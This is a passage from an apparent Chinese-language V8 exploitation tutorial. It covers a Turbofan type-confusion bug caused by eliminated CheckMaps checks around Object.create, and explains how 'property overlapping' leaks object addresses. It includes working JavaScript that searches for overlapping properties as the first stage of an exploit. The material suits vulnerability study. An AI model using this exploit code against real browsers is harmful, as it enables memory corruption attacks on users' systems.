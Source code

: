 不过在利用时，需要大量循环来调用这一函数来触发Turbofan的优化。

## 漏洞利用

现在我们有了一个可以工作的Type Confusion漏洞，该漏洞会导致V8将Dictionary当作数组访问，从而允许我们操纵对象内存布局中的函数指针和数据，但是利用的过程十分繁琐。  
经过前面的分析，我们有办法可以让函数中多余的`CheckMaps`节点消失，并且能够通过`CreateObject`改变`Properties`，则很容易可以构造一种非预期情况。首先构造一个`obj`，初始化时赋予属性`a`，然后增加属性`b`，函数中首先访问`a`，通过类型检查，然后读取`x.b`，由于没有类型检查，此时返回一个与原`b`属性偏移相同的数据，但由于`Properties`发生变化，返回的数据不会再是`b`属性的值。  
想要稳定利用这一漏洞，一个很大的问题在于，Dictionary内部的内存布局是随机的，不过在V8中有一规律，相同属性的`obj`，在`Dictionary`中各属性的偏移也相同。根据这一规律，我们可以使用同样的构造方式来构造具有相同属性的不同`obj`，来满足不同的需求。

### Property Overlapping

根据上面的分析，利用这一漏洞时，访问属性`b`时会访问到一个其他的元素。我们可以利用这种property overlapping，实现类型混淆。如属性`b`是一个`Number`类型，而另一个属性是一个`Object`类型，访问属性`b`会以`Number`的方式读出`Object`的地址，造成地址泄露。如果想要控制泄露的`Object`，就需要知道另一个属性是什么。  
下面是一种比较简单常用的方法，按照一定的规律进行赋值，如属性`bi`的值定义为`-i`，然后依次读取，如果读出的值与原值不同，则可以根据读出的值找到最终读出的是哪一个属性的值。

```plain
function getObj(values) {
  let obj = { a: 1234 };
  for (let i = 0; i < 32; i++) {
    Object.defineProperty(obj, 'b' + i, {
      writable: true,
      value: values[i]
    });
  }
  return obj;
}

let p1, p2;

function findOverlapping() {
  let names = [];
  for (let i = 0; i < 32; i++) {
    names[i] = 'b' + i;
  }

  eval(`
    function vuln(obj) {
      obj.a;
      this.Object.create(obj);
      ${names.map((b) => `let ${b} = obj.${b};`).join('\n')}
      return [${names.join(', ')}];
    }
  `)

  let values = [];
  for (let i = 1; i < 32; i++) {
    values[i] = -i;
  }

  for (let i = 0; i < 10000; i++) {
    let res = vuln(getObj(values));
    for (let i = 1; i < res.length; i++) {
      if (i !== -res[i] && res[i] < 0 && res[i] > -32) {
        [p1, p2] = [i, -res[i]];
        return;
      }
    }
  }
  throw "[!] Failed to find overlapping";
}

print("step 1: check whether vulnerability exists");
```